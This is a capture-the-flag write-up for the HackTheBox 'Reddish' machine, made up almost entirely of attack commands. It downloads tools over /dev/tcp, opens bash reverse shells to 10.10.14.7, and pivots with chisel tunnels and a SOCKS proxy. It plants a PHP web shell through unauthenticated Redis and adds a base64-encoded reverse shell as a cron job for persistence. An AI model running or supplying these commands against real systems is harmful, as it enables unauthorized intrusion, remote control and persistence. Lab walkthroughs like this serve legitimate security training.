




# HackTheBox Reddish Writeup

  
  

## Detailed Solution

### Download LinEnum.sh script from your machine
    List shell type
    > ls -la /bin/sh
    > nc -lvp 8000 < LinEnum.sh
    > bash -c "cat < /dev/tcp/10.10.14.7/8000 > /dev/shm/LinEnum.sh"
    > bash -c "bash -i >& /dev/tcp/10.10.14.7/4445 0>&1"
    > nc -lvnp 4445
    > ip addr

### Build Chisel 
    > git clone https://github.com/jpillora/chisel.git
    > go build

    Check the size of generated exe file
    > chmod 777 chisel
    > du -sh chisel
    > upx brute chisel

### Chisel Reverse Pivot Establishment
    Server (Your machine)
    > chisel server -p 8000 -reverse -v

    Client (Target machine)
    > chisel client 10.10.14.7:8000 R:127.0.0.1:8001:172.18.0.2:80

    Now you can access website with localhost 
    > curl localhost:8001

#### Forward Port to 8001
    Server (Your machine)
    > chisel server -p 8002

    Client (Target machine)
    > chisel client 10.10.14.7:8002 9001:127.0.0.1:8001
    
#### Chisel Database Server Pivot Establishment
    Same as above, but with port changed.
    > chisel sever -port 6379 -reverse -v
    > chisel client 10.10.14.7:8000 R:127.0.0.1:6379:172.19.0.2:6379

    Now you can access database sever on target machine
    > nmap -sT -p 6379 -sC -sV localhost -oA nmap/172.19.0.2
    
#### Redis Remote Command Execution    

    > nc localhost 6379
    > echo "Hey no AUTH required!"
    > flushall
    > set Jason "<? system($ REQUEST['ippsec']); ?>"
    > config set dbfilename ippsec.php  
    > config set dir /var/www/html/
    > save

    Now visit http://localhost:8001/ippsec.php, and you get code execution.
    > localhost:8001/ippsec.php?ippsec=whoami

#### Generate Reverse Shell in Cron Task Time-table
    > echo "bash >& /dev/tcp/10.10.14.7/10101 0>&1" | base64
    > cd /etc/cron.d/
    > echo "* * * * * echo YmFzaCA+JiAvZGV2L3RjcC8xMC4xMC4xNC43IDA+JjEK | base64 -d | bash" > runme
    > nc -lvnp 10101
    > python -c 'import pty;pty.spawn("/bin/bash")'

### Chisel: More Details
    
#### Chisel Reverse Pivot

    htb> chisel server -p 8000 -reverse
    client> chisel client 10.10.14.7 R:127.0.0.1:80:127.0.0.1:80
    
Then you connected! Test connection use following command.

    htb> curl localhost:80

### Chisel Local Pivot

    htb> chisel server -p 8000
    client> chisel client 10.10.14.7:8000 8002:127.0.0.1:8002

You can also use it to connect to windows smb service port.

    htb> chisel server -p 8000
    client> chisel client 10.10.14.7:8000 9001:10.1.3.37:445

#### Chisel Reverse Socks  

  
    htb> chisel server -p 8000 -reverse
    client> chisel client 10.10.14.7:8000 R:8001:127.0.0.1:1337
    client> chisel server -p 1337 -socks5
    htb> chisel client 127.0.0.1:8001 socks
    
Now you can access target machine using socks5 proxy

    htb> proxychains nmap -sT -p 22,80 172.19.0.2
    htb> proxychains curl 172.19.0.2:80
    
    

    
